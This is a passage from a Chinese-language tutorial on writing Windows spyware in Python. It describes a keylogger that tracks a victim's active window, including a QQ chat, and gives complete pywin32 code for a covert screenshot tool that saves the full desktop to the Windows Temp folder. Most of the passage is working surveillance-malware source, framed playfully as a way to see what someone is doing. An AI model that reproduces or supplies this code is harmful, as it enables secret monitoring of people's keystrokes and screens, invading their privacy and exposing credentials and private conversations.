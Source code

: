 切换窗口时会自动跟踪到新窗口（众：这点功能都没有还敢叫 keylogger 吗！），light 教授趁机骚扰一下疯狗，可以看到我们的 keylogger 已经跟踪到 QQ 聊天窗口，并忠实的记录下我输入的一切。

![enter image description here](img/img5_u44_png.jpg)

## 0x02 看看你在干什么：编写一个 screenshotter

* * *

截屏实现起来更简单，直接调用几个 gui 相关的 api 即可，我们直接看代码：

```
# -*- coding: utf-8 -*-  
import win32gui
import win32ui
import win32con
import win32api

# 获取桌面
hdesktop = win32gui.GetDesktopWindow()

# 分辨率适应
width = win32api.GetSystemMetrics(win32con.SM_CXVIRTUALSCREEN)
height = win32api.GetSystemMetrics(win32con.SM_CYVIRTUALSCREEN)
left = win32api.GetSystemMetrics(win32con.SM_XVIRTUALSCREEN)
top = win32api.GetSystemMetrics(win32con.SM_YVIRTUALSCREEN)

# 创建设备描述表
desktop_dc = win32gui.GetWindowDC(hdesktop)
img_dc = win32ui.CreateDCFromHandle(desktop_dc)

# 创建一个内存设备描述表
mem_dc = img_dc.CreateCompatibleDC()

# 创建位图对象
screenshot = win32ui.CreateBitmap()
screenshot.CreateCompatibleBitmap(img_dc, width, height)
mem_dc.SelectObject(screenshot)

# 截图至内存设备描述表
mem_dc.BitBlt((0, 0), (width, height), img_dc, (left, top), win32con.SRCCOPY)

# 将截图保存到文件中
screenshot.SaveBitmapFile(mem_dc, 'c:\\WINDOWS\\Temp\\screenshot.bmp')

# 内存释放
mem_dc.DeleteDC()
win32gui.DeleteObject(screenshot.GetHandle())

```
